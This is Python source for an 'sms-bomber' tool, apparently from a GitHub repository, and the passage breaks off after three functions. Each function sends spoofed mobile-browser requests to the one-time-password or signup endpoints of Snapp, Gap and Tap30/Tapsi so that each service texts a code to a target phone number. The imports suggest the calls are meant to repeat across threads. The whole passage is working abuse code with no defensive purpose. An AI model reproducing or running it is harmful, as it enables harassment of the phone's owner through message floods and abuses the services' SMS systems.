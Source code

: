 # sms-bomber
from platform import node, system, release; Node, System, Release = node(), system(), release() 
from os import system, name; system('clear' if name == 'posix' else 'cls')
from re import match, sub
from threading import Thread, active_count
import urllib3; urllib3.disable_warnings()
from time import sleep
try:
    from requests import get, post
except ImportError:
    system("python3 -m pip install requests")   
def snap(phone):
    snapH = {"Host": "app.snapp.taxi", "content-length": "29", "x-app-name": "passenger-pwa", "x-app-version": "5.0.0", "app-version": "pwa", "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", "content-type": "application/json", "accept": "*/*", "origin": "https://app.snapp.taxi", "sec-fetch-site": "same-origin", "sec-fetch-mode": "cors", "sec-fetch-dest": "empty", "referer": "https://app.snapp.taxi/login/?redirect_to\u003d%2F", "accept-encoding": "gzip, deflate, br", "accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6", "cookie": "_gat\u003d1"}
    snapD = {"cellphone":phone}
    try:
        snapR = post(timeout=5, url="https://app.snapp.taxi/api/api-passenger-oauth/v2/otp", headers=snapH, json=snapD).text
        if "OK" in snapR:
            print(f'{g}(Snap) {w}Code Was Sent')
            return True
    except:
        pass
def gap(phone):
    gapH = {"Host": "core.gap.im","accept": "application/json, text/plain, */*","x-version": "4.5.7","accept-language": "fa","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","appversion": "web","origin": "https://web.gap.im","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.gap.im/","accept-encoding": "gzip, deflate, br"}
    try:
        gapR = get(timeout=5, url="https://core.gap.im/v1/user/add.json?mobile=%2B{}".format(phone.split("+")[1]), headers=gapH).text
        if "OK" in gapR:
            print(f'{g}(Gap) {w}Code Was Sent')
            return True
    except:
        pass
def tap30(phone):
    tap30H = {"Host": "tap33.me","Connection": "keep-alive","Content-Length": "63","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "application/json","Accept": "*/*","Origin": "https://app.tapsi.cab","Sec-Fetch-Site": "cross-site","Sec-Fetch-Mode": "cors","Sec-Fetch-Dest": "empty","Referer": "https://app.tapsi.cab/","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    tap30D = {"credential":{"phoneNumber":"0"+phone.split("+98")[1],"role":"PASSENGER"}}
    try:
        tap30R = post(timeout=5, url="https://tap33.me/api/v2/user", headers=tap30H, json=tap30D).json()
        if tap30R['result'] == "OK":
            print(f'{g}(Tap30) {w}Code Was Sent')
            return True
    except:
        pass
    